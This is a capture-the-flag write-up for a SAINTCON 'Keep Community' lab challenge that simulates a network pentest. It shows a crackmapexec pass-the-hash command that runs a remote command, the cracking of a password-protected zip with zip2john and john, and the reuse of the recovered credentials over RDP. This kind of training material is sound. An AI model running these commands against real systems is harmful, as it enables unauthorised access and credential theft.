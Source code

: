 # WS02 - Admin

## Challenge Description

This Category of Challenge is presented by The Keep Community at SAINTCON.

Have you ever wanted to come to a conference, hack a machine, and walk away feeling like you own the world? Yeah, you can do that here.

If you get stuck or have any questions, don't hesitate to visit The Keep Community for help or guidance!

========================================

Welcome to the Keep!

You have been tasked with running a pentest on this client's network.

They have placed a file flag.txt on the desktop of all the important users in the network. This will allow them to see how far you have gone.

## Solution

Last we had gotten the flag from `bashninja` on **WS02** with:

```bash
crackmapexec smb WS02/32 -u bashninja -d HC -H e68968cfbc5ab5ac534c1cd3715946dc -x type C:\\Users\\bashninja\\Desktop\\flag.txt
```

If we explore a bit (using `dir`), we will notice a `.zip` file on the desktop
labeled _PowerUserAccountCreds.zip_. Ah, alright. Let's pull that and try to
open it.

Password protected... Alright. No big deal. `john` to the rescue:

```bash
zip2john PowerUserAccountCreds.zip
john zip_hash /usr/share/wordlists/rockyou.txt.gz
# will output `pitbull`
```

Now let's open the zip file and see what is in it:

```bash
$ unzip PowerUserAccountCreds.zip 
Archive:  PowerUserAccountCreds.zip
[PowerUserAccountCreds.zip] Power User Account Creds.txt password: [pitbull]
  inflating: Power User Account Creds.txt

$ cat Power\ User\ Account\ Creds.txt
My power user account creds should be safe in this password protected zip
superbashninja
Spring2021#
```

Perfect! Let's see if it works via RDP to **WS02**. And it does! Grab the flag
on the desktop.